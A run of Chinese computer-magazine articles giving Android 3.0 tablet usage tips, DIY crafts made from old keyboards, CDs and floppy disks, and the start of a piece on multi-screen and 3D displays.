除了上述应用以外，Android 3.0平板电脑的USB2.0接口还可以给手机、MP4等数码设备充电（外出手机没电时可当应急的移动电源）。缺点很明显，无法识别外置3G上网卡、2.4G无线耳机与需要额外供电的移动硬盘。总之，Android 3.0系统下的USB Host功能给我们带来了不小的惊喜，但仍有改进的空间。

Android 3.0真就无法看1080P吗？

前文已经介绍过了，Tegra 2的视频播放能力并不理想，勉强可以流畅播放720P视频，但对1080P影片就束手无策了。如果你想在Android 3.0系统中体验一把看1080P高清视频的瘾，其实还有另类的解决方案：利用远程控制功能，将平板电脑的屏幕与电脑的屏幕互换。以华硕EeePad TF101为例，这款产品随机预装的“MYCloud”云端软件就支持类似远程桌面的“MYDesktop”功能，让TF101控制支持WiFi的电脑直接播放电脑硬盘中的1080P视频文件（由电脑自己解码，TF101只是显示与控制端），只要无线网络稳定，什么1080P、音乐播放、网页游戏都是“浮云”，基本可以做到无延迟显示。

具体的设置过程也很简单，先登陆华硕官网下载“EeePad PC工具套件”（下载地址：http://tinyurl.com/3m7376e），安装结束后运行Splashtop Remote程序在电脑端进行设置。根据提示输入密码（至少8位字母+数字的组合），最终会弹出配置成功的窗口。接下来将TF101接入和电脑相同的无线网络，然后启动MYCloud程序，点击下一步直至出现让你“开始扫描所有可用的设备”界面，点击该按钮，稍等片刻就会出现之前配置的电脑信息，输入密码后就可使用MYDesktop功能了。

接下来我们就可以在TF101的屏幕上操作电脑了，看高清电影不再有压力，只要无线信号够稳定，上WC的时候也可以对电脑“发号施令”，非常方便。需要注意的是，TF101屏幕所显示的电脑画面的质量会略有下降，即便将电脑屏幕的分辨率设置为1280×800像素还是会有些模糊（实际还是比较清晰的，所谓模糊只是相对而言）。

好消息是，华硕TF101所用的Splashtop Remote软件可以在官网下载：http://www.splashtopremote.com/，该软件支持iOS、Android和Palm Pre三大系统。

运行速度 越来越慢怎么办？

目前市售的Android 3.0平板电脑内存均为1GB，但实际可用的内存在750MB左右，闲置状态时的内存则在450MB上下。与手机上的2.x系统一样，3.0的Android依旧会在后台自动运行很多不需要的程序而耗损内存。如果你经常用程序切换键在多个任务间转换，运行速度不慢才怪。可惜Android 3.0自身并没有提供任务管理器功能，这就需要咱们自己找好用的第三方软件查杀进程了。

手机上的高级任务管理器（下载地址：http://soft.shouji.com.cn/down/17860.html）在Android 3.0平板电脑上可完美运行，安装完成后，点击屏幕右上角的“+”号，在“更多”中可以找到一键结束所有任务的快捷插件，将其添加至屏幕主页，每当感觉速度变慢了，点击一下即可关闭所有运行的程序释放内存。

软件游戏 无法全屏怎么办？

Android 3.0平板电脑的分辨率为1280×800像素（16:10），而针对Android系统开发的游戏和软件则多为480×320或800×480，有些软件运行时会出现无法全屏的问题。比如“天天静听”这款软件，安装运行时只能在屏幕顶端以小窗口的形式运行。此时，需要我们借助“Spare Parts”（系统增强设置，下载地址：http://www.apkcn.com/apk/SpareParts.html）来帮忙。安装该软件后在程序列表中会新增加一个“其他设置”的图标，进入该程序后取消最下面“兼容模式”的勾选，重启平板电脑后再来运行不能全屏的软件，是不是大部分都可以全屏显示了呢？如果还是不能全屏，那就是该软件在开发时就没有考虑到分辨率兼容性的问题，只能期待该软件推新版本才能解决了。

设置还是不够方便？

虽说Android 3.0系统右下角已经提供了快速设置WiFi等功能的选项，但使用起来还是不够便利。此时Android手机装机率最高的插件软件“七键开关”（SwitchProWidget，下载地址：http://u.115.com/file/bhnun5qt）就派上用场了。针对平板电脑，建议大家加入“自动旋转屏幕”（控制重力感应，避免轻移机器屏幕方向就变了）、“锁定屏幕”（一键锁屏，减少物理电源键的使用频率）与“电池指示器”（直接显示剩余电量，更直观）的快捷方式。打开无线、调整背光、查看电池信息再也不用一步步操作了。

要不要买3G版？

和iPad一样，Android 3.0平板电脑同样分为WiFi版和3G版两种，二者价差在千元左右。对于绝大多数用户而言，有必要等待支持随时随地上网冲浪的3G版吗？这千元的银子到底有没有必要花呢？
如果你居住和上班/学习的地方都有WiFi网络，外出时只是偶尔需要联网的话，WiFi版足矣。此外，如果你的手机已经用上了流量可观的3G套餐，并且采用了Android、iOS、塞班或WM智能系统，手机本身就可以变身WiFi热点，让平板电脑共享该网络上网，从而省去了3G平板电脑的硬件成本，以及额外再配一枚3G SIM上网卡和流量套餐的额外开销。

能不能无线听音乐？

在公车或地铁中，当你在用平板电脑听音乐或看电影时，耳机的连线无疑是一种累赘。虽然像ACER A500这类产品配备了USB2.0接口，但只能识别存储设备或鼠标，无法识别带USB适配器的2.4G无线耳机。买一款蓝牙耳机吧，不仅价格较高，通用性也不强。如果你想以无线的方式聆听平板电脑中的影音文件，不妨考虑一下采用3.5mm接口发射器方案的2.4G无线耳机产品。比如雷柏的H3010，可以和平板电脑、笔记本、手机、MP3/MP4等任意带3.5mm接口的设备相连，通用性非常出色。

小提示：
目前搜狗、百度等第三方Android输入法都推出了针对平板电脑优化的“Pad版”，与手机版相比对大屏幕的空间利用率更高。安装第三方输入法后，需要先到“设置→语言和输入设备→配置输入法”中勾选新安装的输入法。当输入法程序运行后，屏幕右下角任务栏会出现一个键盘的标志，点击该标志就可迅速切换输入法。当外接物理键盘时，此界面还会出现“打开/关闭”物理键盘的选项。

小提示：
如果你家里没有无线路由器，可以将笔记本打造成“无线AP”。此时需要借助一款名为Virtual Router（虚拟路由）的软件。从Virtual Router的官网进行下载（http://virtualrouter.codeplex.com/），安装运行后只需三步就可完成无线热点的搭建。首先选择要分享的网络；接下来设置最少8位的密码；最后就是点击“Start Virtual Router”按钮，稍等片刻便在左下角显示“Virtual Router Started”。与我们前几期介绍过的Connectify相比，这款软件支持更多笔记本的无线网卡，兼容性相对好一些。如果Virtual Router提示设置失败，可再考虑Connectify。

小提示：
将不同系统的智能手机打造成“无线AP”的方法，请参考2011年08期P78页《生活无处不无线 无线达人一周生活日记》这篇文章，其中有详细的共享手机WiFi的设置教程。当使用手机共享的无线AP上网时，最好关闭平板电脑自动更新一类的功能，并在手机端安装流量监控软件。

作为新兴的系统，Android 3.0可以挖掘的功能和潜力无可限量，限于版面和我们水平的限制，到目前为止也就只能向大家分享这么多的经验了。如果你已经或即将加入Android 3.0（各品牌很快就会提供3.1版升级ROM）平板阵营，今后在产品的使用中如果发现了更有趣、更实用的技巧或经验，欢迎给我们投稿（wangjian@cfan.com.cn），和《电脑爱好者》30多万读者一起分享。

策划/《电脑爱好者》编辑部
监制/王健
撰稿/王健 hiker 吕晨曦

个性十足的时钟

材料：废旧键盘、废旧CD、不用的时钟、万能胶

1. 首先将已经损坏的键盘上的F1~F12按键全部拆下来。拆解的方法很简单，用一个稍微硬一点的物品，如镊子或指甲剪上修剪指甲的一方，沿着键盘上的细缝向上用点劲挑就可以了。

小贴士：
这属于比较野蛮的方法，因此不要用太过尖锐的物品，不然会损坏键盘按键。如果你有耐心，可以用螺丝刀将键盘背后的螺丝钉一个一个拆除，然后再慢慢地拆下键盘。

2. 将按键内部突出来的地方用小刀磨至低于按键四周高度后，用万能胶沿着按键四周涂上。在风干前，将它们粘到准备好的CD盘上，每个按键所粘的位置，要事先做个标记。如何将一个圆形分成12等分，这个上学的时候老师都教过，就不多说了。将12个按键都粘好后，放至一旁风干一会儿，千万别将胶水弄到手上就好。

3. 将一个不用的闹钟拆分开，留下和指针相关的部件。然后从CD盘中间的圆孔穿过，再用万能胶水固定住就可以了。这个拆闹钟的过程，说简单也简单，不过笔者没有那么多的废旧闹钟可拆，于是将粘贴好12个按键的光盘带到了修钟表的地方，让那里的师傅帮忙拆分并且安装上去的。当然，如果家里的长辈会的话，也可以请他们帮忙。

在制作的过程中，如果指针过长会碰到按键的话，可自行裁剪一点。建议选择小巧一点，5~6元一个的那种闹钟，指针大小就不要裁剪了。如果还是怕碰到按键的话，可以裁剪一些比CD盘中间孔略大一些的圆形纸片，中间打孔，方便安放指针，然后将这些圆形纸片夹在指针和光盘中间，垫厚点（可以裁剪多些，用胶水粘在一起），让它超出按键的厚度，这样不用裁剪指针，也可以避免指针和按键的触碰了。

4. 最简单的让时钟立在桌面的方法，就是选择一个相架，最好是玻璃的那种，尺寸根据CD盘的大小来定。然后将CD盘和相架间用海绵胶来固定（其他方式也可以），这样将来取下CD盘后，相架还是可以用来放照片。

创意无穷的首饰

材料：废旧键盘、万能胶、套被针（粗点的针）、蜡烛或打火机

1. 首先从键盘上挑选你喜欢的字母，将它们取下来后，按照前面说的方法，将按键背后的部分处理一下。

2. 把针放在蜡烛上烧红后，在按键上穿孔，这里需要注意一下安全，针在火上烧的时候，建议大家戴一个手套，不要烫到自己的手。另外针一定是套被针那种，要粗一点的，不然不容易在按键上穿孔。如果没有合适的针，你可以找类似的硬物烧红穿孔，例如钉子。

3. 如果你是做项链的话，在穿孔后，将按键放凉，随后找绳子将你所选的按键一一穿进去即可。为了美观，你还可以在按键之间加上一些珠子，珠子可以在卖串珠工艺品的地方买到，大约1毛钱6颗（各地会有不同），都有孔，不必自己穿孔。绳子也可以在那里买到，根据个人爱好，用红绳、串珠的绳子或编手链的玻璃绳都可以。

4. 全部穿好后，做一下最后的处理。用万能胶将按键的镂空地方全部填满并晾干（完全干透），这样运动的时候即使触碰到也不会伤到自己。

好点子分享

取下相似的按键，如‘M’与‘W’，‘+’和‘-’等等。处理按键的方法都一样，只不过这是在按键上方的中间穿孔，然后将你以前掉色或破损的耳环上的配件取下，只留下耳钩，然后将按键穿到原来耳环配件的地方，一对个性的耳环就出来了。当然，按键能做的首饰很多，还可以做戒指、钥匙扣等，处理的方法都一样，只是准备的材料不同，材料就在你身边，大家可以自己去实验。

键盘改造旧U盘

材料：废旧U盘、502胶、小刀

1. 将一个使用时间比较长，外壳划损较厉害的U盘的外壳取下。注意要小心一点，不要损坏到U盘的芯片，因为U盘的样式多种繁多，拆取的过程大家自己慢慢尝试，笔者的这个从中间轻轻一拔就开了。拆取之前先好好看看，如果有螺丝的还要先将螺丝取下才行。切记不要用蛮力哦。拆取下来后，将U盘上的灰尘擦干净，不能用带水的布擦，用抽纸轻轻擦或吹去即可。

2. 在旧键盘上找寻与旧U盘大小类似的按键（按键可以大于U盘大小，却不能小于它）。去掉按键上的铁丝，再将中间突出的地方磨平。可用小刀先在包裹铁丝的塑料上划个口子，方便取下铁丝，再用剪刀将突出部位剪出一点口子，这样用刀去磨平的话会方便很多。紧接着在按键的一侧（小口的一侧）开一个和U盘插口差不多的口子，可以先用尺子量一下U盘插口的大小，然后用铅笔在按键上画出大致的位置，大点没有关系。最后用小刀将口子挖出来，挖好后将U盘与之对比一下看能不能放进去，如果嫌小，可以稍微再扩大一点口子。

3. 将U盘准确放进按键里面后，用502胶将空余的空间全部填满。自然晾干，要完全干透。接着就可以插入电脑上的USB接口试运行了。

杂物收纳盒

材料：CD光盘盒（圆筒型）、冰棒棍若干、万能胶或双面胶、包装纸或杂志彩色封页

1. 将夏天吃过的冰棒棍收集起来，用洗衣粉洗干净，放至太阳下晒干晒透，建议多晒几天。

2. 将处理好的冰棒棍的一面涂上万能胶（万能胶比双面胶更能使冰棒棍和CD光盘盒紧密粘合，不容易脱落），然后沿着CD光盘盒壁，一根根地粘在上面，粘窄一点。记得冰棒棍要一根根地紧靠在一起，不要留缝隙哦。

3. 全部粘好后，如果觉得不太美观，可以找一些包装礼品剩余的包装纸或彩色画报，量好CD光盘盒的高度和卷一圈的长度。裁好后，用双面胶将包装纸粘到冰棒棍的外侧，双面胶不用太多，在上面和中间两个位置粘一圈即可。之所以用双面胶而不用万能胶，是为了能根据你的心情随意更换，如果用的是万能胶，撕下来不容易，一层覆一层的话时间长了会很难看。

好点子分享

如果只是用来装一些杂物，如化妆品、剪刀、梳子等，按照上面的步骤做完即可。但是如果想当纸篓来用，扔一些瓜果皮屑或带油质的物品，使用前记得在里面先垫一层塑料袋，扔的时候连塑料袋一起扔，不然会给日后清理带来麻烦的。

为了外形更美观，可在CD盒的内侧用一张白纸围起来（类似杂志彩页的纸张最佳），然后裁剪一个略小于CD盘直径的圆形纸放至盒底。裁剪圆形时控制好剪小一点即可。

CD盘变CD架

材料：旧CD盘若干、4根短粗的钢管、2根长而细的木条、螺帽、垫片（小时候用来做毽子的材料）、电钻

1. 在要用到的所有CD盘相同的位置上打孔（中间靠下的位置，为了能更好地卡住要放在上面的东西，左右各打一个），在打孔前最好先用刻度尺量好位置，然后用油性笔在光盘上记好位置。

2. 在粗一点的钢管上的适当位置打孔（中间靠上的位置，避免光盘接触到桌面，为了美观，一个孔即可，但是要打穿钢管）。四根粗钢管上的打孔眼要在一致的高度，不然可立不住哦，孔的大小只要保证能让那两根木条从中间穿过去即可，不宜过大。这四根粗的钢管是用来当底座的，所以一定要能承受住重量。

3. 在其中一根木条上穿上一个螺帽（从木条的一边算起大约2公分处），拧紧，这是为了固定用，不然光盘穿上去，一晃动就会从木条上掉下来。接着将这根木条穿过其中一个钢管，让螺帽正好卡在钢管边缘。用类似的方法将另一侧也这样穿起来，接下来的操作可以左右同时进行，这样会比较方便。将两根木条分别穿过左右两个孔，然后串上垫片若干，垫片是用来控制光盘之间的位置，不用塞得满满的，留一点空间可以随时调节间距。穿完垫片后再穿光盘，所有光盘全部穿好后，记得在结尾处要先穿上钢管，最后是螺帽。

小贴士

如果你把这个架子做成书架的话，那么光盘与光盘之间的距离要控制得大一些，每个光盘之间的垫片在8个左右就好了。

小贴士

如果家里没有电钻，可将光盘拿到五金器材店请那里的师傅帮忙，嘴巴要甜点哦，师傅们一般都会帮你，有的会收1~2元手工费，孔的大小要保证能让你准备的两根木条穿进去。如果找不到合适的材料，可以找师傅们要些废弃的边角料，他们一般会很大方地给你。如果还是不行，就找些能承受重量的材料替代也可以。

唯美灯箱

材料：CD光盘盒（普通的透明材质的CD盒）、刻刀、剪刀、装饰画纸（照片或包装纸也可以）、包装带、万能胶水

1. 要选择那种透明的光盘盒，把装光盘的那个架子卸下来（不需要这个部位），如果是透明的但取不下来也就罢了，但是如果是黑色或其他颜色的一定要拿下来，不然会影响光亮效果。

2. 用尺子量一下光盘盒内部可贴纸的范围大小，然后找来你喜欢的包装纸图案或照片，将多余的地方裁出。如果是照片，将带画的部位向外贴在光盘盒的内部。如果是很薄的包装纸，可以先将裁剪好大小的两张都带彩面的那面粘在一起，然后再粘在光盘盒的内部，这样里外都有彩画，效果会更美。不过值得提醒的是，除非画纸本身就是两面都带彩，不然想要达到正反都有彩画，就要选择轻薄的纸张，否则透视效果就不好了。另外不要用双面胶，可选用万能胶或不带颜色的胶水，在纸张的四边涂一圈即可，范围不要太大，不然有光亮后能看到大片的涂痕。

3. 用两个完整的处理好的光盘盒立起来对接就可以围成一个正方形了。先用透明胶在盒子内部两个光盘盒的交接处固定一下，再用万能胶沿着交接处粘牢，可以反复多涂几次，直至完全粘牢不会晃动。这个是耐心活，不可图快。

4. 用足够长的包装带（市场上一般1角4根，如果找不到，也可以用漂亮的布条，宽度在1公分即可），不切断沿着灯箱四周，用胶水将它固定在灯箱的最上方。在拐角处的地方多上点胶水，记得要抚平，然后在上端的四周边缘也包上一圈。

好点子分享

精美别致的小灯箱完工后，将一个蜡烛托杯放在里面，再点上一根蜡烛，晚上和另一半来个烛光晚餐，简直太美了。

欧式杯垫

材料：废旧光盘、废旧布料、花边、针线

1. 找一块不用的布料，可以是不用的T恤、枕套等，裁剪出比光盘的直径多出2-3公分大小的圆形2片。将光盘放在两片圆形布之间的中心（切记一定要放在中心位置哦，不然后面制作就会有缺陷，不完美了）。然后用针线沿着光盘的四周紧密缝合起来，一定要牢牢地固定住光盘才行，不能让光盘在两片布中晃动。

2. 找一个短一点的缎带，对折后，随意缝在光盘布外侧的任意一角，这样可以方便日后晾晒。再找一段多余的蕾丝花边，这些在旧裙子或盖冰箱的旧布上很容易找到，不行还可以去工艺品店购买，一条1米长5公分宽的大概在1元左右。将它缝在四周多余的位置上，是不是有点欧式的感觉？今后杯子再烫也不怕烫坏桌子了。

好点子分享

我们还可以做成精美漂亮的抽纸纸巾盒，按照同样方法先做出5个一样的杯垫备用，重要的是第六个的做法。将光盘放至2个裁剪好的圆形布正中间，用笔描出光盘中间洞的大小，将光盘拿出后用剪刀将描好的洞口剪出来（要稍微比描好的圈小一点，这样后面才好缝），上下两个圆形布都要剪哦。然后按照杯垫的方法将光盘缝到圆形布中，中间剪出的洞口也要缝起来。将做好的杯垫一个做底盘，另外4个做四壁，用针线将它们的花边缝在一起。最后将卷纸放入其中，盖上盖子就可以了。

别致相框

材料：废旧光盘若干、各种颜色纸张若干、照片若干、中国结、绳结、双面胶或胶水

1. 选用不同颜色的纸张，裁剪出与光盘直径大小一致的圆形若干，可根据照片的总体颜色来定，怕麻烦的话也可以选用白色纸张。将裁剪好的圆形纸张紧密地粘贴在光盘的一面上，注意修剪一下，不要多出来哦。

2. 将光盘上下处垂直地打2个孔（上下各一个，一定要垂直，每张光盘的孔眼位置要一致）。用红色的绳子（编中国结的那种，1元2根）将光盘与光盘之间绑在一起，怎么绑结，随个人喜欢就好。在第一张光盘的顶端可以绑上一个中国结（自己会编最好，不会也可买个现成的，3元左右），然后在最后一张光盘的尾处绑一个吊穗，可以是另一个中国结，也可以是其他的样式。

精美工艺品

材料：废旧光盘若干、套被针或小号铁钉（太粗的会影响画感）、针线、蜡烛

1. 在网上找到你喜欢的素材，建议是简单的线条型图案。用极细的油性笔在光盘上（正面，有图形的一面）先画出大概的样子。

2. 将套被针或小号铁钉在烛火上烧红，然后沿着刚才画的线条，在上面戳出一个个洞眼，洞眼之间不要紧挨着，留一点距离比较好。这个步骤比较麻烦，洞眼不是那么容易戳的，可以反复多次，不要一次性地使太大劲而伤到手。要注意安全，记得戴上手套，一来防止烧铁钉时烫到手，二来避免戳洞眼时用力过大而划伤手。

3. 洞眼全部戳出来后，将光盘反面朝上（没有图案的那面），用小刀将洞眼打磨平滑一点，要轻一点，不要划得光盘上全是划痕。然后将线穿到针眼里，就可以在刚才打好的洞眼里绣出你画好的图案了。

4. 为了美观，你可以在杂志上或过时的贺卡上剪出一个和你绣的图案类似的图形，用双面胶贴在光盘的中间部位，这样可以很好地遮挡光盘的洞口，作品会更美观。

新颖小书档

材料：废旧光盘2片、大号蜡烛多个、木夹、万能胶

1. 先用油性笔在光盘的中下位置（光盘中间洞口到底部的中间部位）画条直线。

2. 将蜡烛点燃（要大号蜡烛哦，不会那么快烧完），将光盘拿到烛火上，沿着刚画的那条线烧烤。可能要费较长的时间，所以你可以多点几个蜡烛同时烧烤，烧到光盘软化可折叠起来为止。这是考验你耐心的时候哦，千万不要着急。

3. 烧好后，在完全冷却前，用万能胶在烧好的位置上涂满，然后和另外一片光盘粘在一起用木夹夹好，固定好角度。如果用来做书架的话，角度可以倾斜点，这个大家自己决定就好。

特制文具盒

材料：软盘若干、万能胶、空塑料瓶（2元店有卖）

1. 利用直尺等工具将软盘固定好，用万能胶将3个软盘并列粘牢，做7个，2个做底部，5个做壁，再准备6个单独的软盘做窄口的壁。

2. 准备一个塑料的空瓶子，高度与软盘相同，用万能胶将它固定在其中一个角落用来放笔。如果想美观一点，可以用包装纸将它们包裹一下。

小贴士

图中黑色的挡板是用黑色的薄铁制作，铁板材料不容易找到，裁剪工具也不是家里的必备品，有条件就做，没条件就省略吧。

迷你便签本

材料：软盘2张、废纸若干（用过一面的打印纸）、铁环2个（钥匙扣上的铁圈也行）或丝带、打孔机

1. 将2张软盘的写保护位置打开，你会发现软盘两侧的孔此时就是对称的了。

2. 用刻尺量好软盘的大小，将准备好的废纸裁剪成软盘大小或略小一点。将裁好的纸张对齐后放在软盘上，在纸上画出软盘孔的位置，做好记号。然后用打孔机打孔（方形小型打孔机超市10元一个），一次不要打太多张，不然会很吃劲。

3. 将打好孔的所有纸张夹在两张软盘之间，对齐后，用铁环或丝带将它们从孔中穿入固定就可以了。

小贴士

这样做成的便签本放在包包里，不怕变形，在路上拿出来记些事，也不怕纸张太软写出的字歪歪扭扭了，因为有软盘的硬度，会很容易在上面书写。如果想让这个便签本漂亮点，可以先将金属保护罩拿下来，剪些漂亮的图案贴在软盘上做装饰。

客厅装饰画

材料：软盘若干、废纸若干、双面胶、万能胶

将至少四个软盘用万能胶粘在一起，形成一个正方形或长方形。然后在网上找一幅大的风景图（其他图片也可以），记得像素一定要高的。如果找不到，可以去快印店里挑选，那里的图片素材像素都很高。找到后，直接用A3记事贴纸打印（带背胶），回来按照软盘的大小，将它们裁剪出来，然后平贴在软盘上。为了防止贴不平，可以事先在上面贴2层纸做垫底。完成后，把它贴在客厅或需要装饰的地方，会很美。此例中，墙上的画分割成3块，每块的软盘数是横6竖8。如果你用很多软盘粘合后，超过A3纸的大小，那么素材就去图文店打印写真即可。





## 好点子分享

找一张整图，裁成单张软盘的大小，一一贴上去，不仅可以做杯垫，还可以当拼图玩。

## 另类包包

材料：软盘若干、电钻、钳子、铁丝、背包带（绳子）

- 1. 将所有软盘的写保护位置全部打开，保证左右两边的洞眼对称。
- 2. 软盘的上方有两个圆形的洞眼，但是只有一面，并没有穿透到另外一边，用电钻将这个圆形的洞口打穿，方便后期穿铁丝。
- 3. 将软盘并排放好，用铁丝顺着洞眼将靠在一起的软盘用铁丝连接起来，这个过程很费时间，也很重要，大家要耐下性子一步步来。在上铁丝的时候，弄成圆环然后将接口固定牢即可，不要弄出多余的部分，以免日后划伤自己。
- 4. 将软盘串成10列，每列4个，其中第四列为10个，多出来的折叠后做包包两侧的壁（这只是举例，大家可根据各自的需求排列软盘的样式）。
- 5. 将固定好形状的软盘向中间（朝内方向）折叠起来，然后用铁丝将它们固定住（将包的四壁都用铁丝固定在一起），形成一个包包的形状。
- 6. 将准备好的背包带或绳子用铁丝环固定在包口处（可以先用铁丝环套在背包带的金属扣上，然后另一头套在软盘的洞眼里），两边全部固定好后，就可以背了。如果这样背着走在街上，肯定很另类，其实不背也可以，放在家里可以在里面储存一些旧的杂志书籍，比用塑料袋和纸箱保存起来更牢固。







## USB保暖系列（手套、鞋子、鼠标垫）

冬天玩电脑，手冷脚冷是最难忍受的事，遇到没有空调的时候，手指往往冻得都张不开。我们可以自制一款USB保暖系列，成本比在外面买成品可便宜多了。做出来后，只要插上USB插口，就可以加热了。

材料：旧手套一副、棉鞋、鼠标垫、发热片、尼龙搭扣(5角一米)、针线



### 小贴士：

> 不管购买的是哪一款发热片，注意一定要带线的，不要贪图便宜买价格低廉却不带USB线的那种，不然买回来后再自己配线就麻烦了。



- 1. 发热片是最重要的材料，在市场上可能很难看到，大家可以去淘宝购买，进入http://www.taobao.com输入“发热片”就可以找到，价格也不贵。做USB暖手套的发热片有两种，一种是裸的，回来需要自己缝制，这类比较便宜，1~1.5元就能买一副；另一种是加工好绒布的，无需自己手动给发热片缝制外衣，这类价格稍微贵一点，价格在8~9元左右，根据情况选购一款即可。
- 2. 准备一副手套，将买好的尼龙搭扣裁剪成2~3厘米长就够了（发热片三分之一长度）。尼龙搭扣分为两面，一面是绒绒的，一面是有点硬的，分开它们，将手套翻过来，内朝外，将尼龙搭扣其中一面缝在靠手背的部位，另一面缝在发热片的绒布上，然后将它们贴在一起，再将手套翻过来即可。
- 3. 这里要注意一点，如果你买的发热片是加工好绒布外衣的，上面一般缝制好一面的尼龙搭扣，你摸摸看是绒面还是硬面，然后选择和它相反的那面缝在手套上，长度也根据外衣上的长度剪裁。将手套上的线和赠送的USB线的接口连接好，然后将USB插口插到电脑上，过5分钟后，戴上手套，里面就会很暖和了。
- 4. 如果机箱前面没有USB插口，没有关系，买一个多口的USB转换器就可以了（买单口的也可以，但因为两者的价格都不高，为了日后方便，推荐买多口的，以后要用就不必再买了）。将USB转换器的一头插在机箱后面的USB接口里，然后将USB手套上的USB接口插到USB转换器的接头上就可以了。











## 好点子分享

根据此方法还可以制作USB的暖鞋、鼠标垫、靠垫等产品，一般卖USB手套发热片的商家也会卖其他产品的发热片，或者在淘宝搜索“USB发热片 暖脚宝”和“USB发热片 鼠标垫”，制作方法都一样。大家都可以尝试一样。制作出来的成品可是要比市场上的便宜很多，如果你感兴趣，还可以多购买些发热片，多制作些成品去卖，应该会很火的。

## 手工书签

材料：废旧卡纸（彩色）、废旧打印纸、丝带、打孔机、胶水

- 1. 将用过一面的卡纸裁成宽4厘米，长12厘米的长方形备用。
- 2. 打开Photoshop，选择“文件”菜单下的“新建”命令（或按Ctrl+N组合键），新建一个宽3厘米，高10厘米的新画布，考虑到要进行彩打，这里的分辨率设置为“300像素/英寸”。
- 3. 打开准备好的图片（这里以3个图片为例），复制粘贴到新建的画布中，选择“编辑”菜单下的“自由变换”对图片进行缩放，先按住Shift键将鼠标移到图片四个角中的其中一个，拖动鼠标进行等比例的缩放，缩放到合适大小后按回车键即可。记住要在图片的上、左、右三面空出一些位置，不要填满。
- 4. 三张图片都处理好后将它们排列在画布中，图片与图片之间也要留有空间，不要贴得太紧。接着在“图层”面板中点击除了“背景”层外的另外3个图层前面的空白处，出现锁链似的图标后，在菜单栏选择“左对齐”，再选择“垂直居中分布”，将图片对齐。
- 5. 选择“图层”菜单下的“合并链接图层”将3个图层合并成一个图层。双击“背景”图层，确定后即可解除“背景”图层的锁定状态，以方便接下来的操作。将这两个图层做个链接，选择“垂直中齐”和“水平中齐”，将做好的图层与背景图层居中对齐，并保证“背景”图层为当前图层。
- 6. 如果家里不是彩色打印机，可保存到U盘后外出打印，将打印好的图片贴在之前裁剪好的彩色卡纸上，在靠卡纸的下方并与底部空出0.5厘米的地方贴好，然后用打孔机在卡纸的上端打一个孔，用丝带在上面打个结即可。










### 小贴士：

> 虽然用美图秀秀的“照片拼接”功能也能快速制作书签，但是图片的尺寸不好控制，打出的图片可能会超出裁剪好的卡纸大小。笔者还做过实验，在Photoshop中设置好一个所需要大小的背景，然后到美图秀秀里进行加工，可是保存后再到Photoshop里查看或打印出来，尺寸总是达不到要求。
用同样的方法还可以制作随身携带的日历。先用Photoshop新建一个宽3厘米，高7厘米，分辨率为300的新画布，打开你选中的图片，将它们在新画布中调好位置（可填满或放置一角），然后保存。这是为了统一所有图片的尺寸，打开软件Photocap5.01（http://www.duote.com/soft/774.html），选择“档案”菜单下的“载入影像”打开处理好的图片，选择“月历物件”，设置好“年份”和“月份”。
如果用的是整张图片，请记得在“底色”面板中勾选“显示底色”，然后设置“不透明度为“30%”，将“固定的颜色”设置为“白色”，这样就避免因图片太花而看不清楚日历了。全部月份制作完毕并打印后，将12张卡纸对齐统一打孔，然后固定在一起就可以了。

要记住只粘3面，留下一个是放照片的口子，可千万别4面都粘了哦。

## 好点子分享

在网上找一个花朵的矢量图打印出来（其他图案也可以，但是最好是矢量图，这类图比较简单一点），如果你绘画不错也可以在纸上画出来（可以选用白色卡纸或一般的复印纸）。图案若是黑白线条类的佳，用针沿着它的线条一点点地戳洞，慢慢戳出它的轮廓形状，不用太细致，只要看得出样子即可，正面戳完后，若是想要立体感强一点，可以翻过来沿着戳过来的孔再戳回去。然后可以将它放到你制作好的瓦楞相框里，有点浮雕的效果，很漂亮的。



## 开心果相框

材料：瓦楞纸或纸箱、502胶、开心果果壳、铁丝、颜料、老虎钳、刻刀

- 1. 准备2块大小相同的无用瓦楞纸（最好是家用电器的包装箱，超市的盒装酸奶盒或鞋盒也可以），尺寸自定，能放下相片就行，这里以6寸照片（102mm×153mm）为例。制作相框时尺寸要比照片大些，将2块瓦楞纸都裁剪成162mm×213mm，将其中1块上下左右各空出30mm，然后将中间的地方用刻刀划去。
- 2. 将只剩边框的瓦楞纸用胶水粘到另一块瓦楞纸上（可以用双面胶，也可以用普通胶水）。要记住只粘3面，留下一个是放照片的口子，可千万别4面都粘了哦。
- 3. 用开心果果壳在镂空的那个瓦楞纸的上面摆出花朵的样子，然后用502胶将它固定住。接着将准备好的铁丝（找不到可以用回形针代替），借用老虎钳的帮助弯成你想要的形状，粘在开心果周围做衬托，形状自己看着办，当然要有些艺术美感啦。
- 4. 最后就是美观了，找来颜料，一般画画的那种就可以，将自己喜欢的颜色涂在瓦楞纸、开心果果壳和铁丝上，果壳的颜色可以和瓦楞纸的不一样（这里偷懒则一色解决了），等完全干透就可以将你的照片放进去了。





## 流动秘书杯

材料：透明玻璃杯一个（其他杯子也可以，但是效果没有透明的好看）、带橡皮的铅笔一支

方法很简单，你可以从电脑里打印出一个带有你上班时间段的纸条，例如8点上班，17点下班，那么每两个时间段的中间有一条长线，方便记事，打印后粘在玻璃杯上（胶水、双面胶等均可）。然后每天上班的第一件事就是用铅笔在上面记下当天的重要事件，要对应到相应的时间段后，这样喝水的同时也在提醒你，今天该做什么事，做过的就用橡皮擦掉，一目了然。当然你也可以只贴一张白纸在上面，不过就是不太漂亮而已。纸的大小可根据你杯子的大小来定，这里定的尺寸是高7cm，宽14cm，高度根据杯子而定，不要贴满杯子的高度，上下各空出1~2cm最好。



策划/《电脑爱好者》编辑部
监制/洁丝
撰稿/寿晓蕾

## 自己打造视觉盛宴

## 显示设备两大新玩法搭建向导

炎热的夏天，是电脑相关产品的购买旺季。在今年的攒机计划中你是否只是打算购买一千元出头的“大屏幕”液晶显示器呢？你是否还只是对着单个屏幕在那里苦战游戏，是否还是对着一大堆层层叠叠的文档窗口焦头烂额呢？快来试试新的玩法吧，我们今天介绍的环屏和3D不光看上去新奇酷炫，而且还能助你提升游戏水平、提高工作效率。

## 玩法一：环屏显示

